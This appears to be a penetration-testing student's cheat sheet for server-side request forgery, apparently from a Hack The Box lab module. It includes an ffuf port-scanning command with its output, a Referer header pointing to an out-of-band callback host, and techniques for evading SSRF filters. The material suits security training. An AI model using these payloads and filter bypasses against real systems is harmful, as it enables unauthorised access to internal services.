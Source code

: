 ![[Server_Side_Attacks_Module_Cheat_Sheet.pdf]]

# SSRF
## Port Discovery
```shell-session
alakin2504@htb[/htb]$ ffuf -w ./ports.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Failed to connect to"

<SNIP>

[Status: 200, Size: 45, Words: 7, Lines: 1, Duration: 0ms]
    * FUZZ: 3306
[Status: 200, Size: 8285, Words: 2151, Lines: 158, Duration: 338ms]
    * FUZZ: 80
```

## URL Fuzzing
example: 192.168.0.FUZZ

## Blind SSRF in Referer Header
Just use Referer: https://r80jbhuq4svofeubo41rcv8hq8wzkp8e.oastify.com/

## Blacklisted SSRF WAF
- Use an alternative IP representation of `127.0.0.1`, such as `2130706433`, `017700000001`, or `127.1`.
- Register your own domain name that resolves to `127.0.0.1`. You can use `spoofed.burpcollaborator.net` for this purpose.
- Obfuscate blocked strings using URL encoding or case variation.
- Provide a URL that you control, which redirects to the target URL. Try using different redirect codes, as well as different protocols for the target URL. For example, switching from an `http:` to `https:` URL during the redirect has been shown to bypass some anti-SSRF filters.
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md
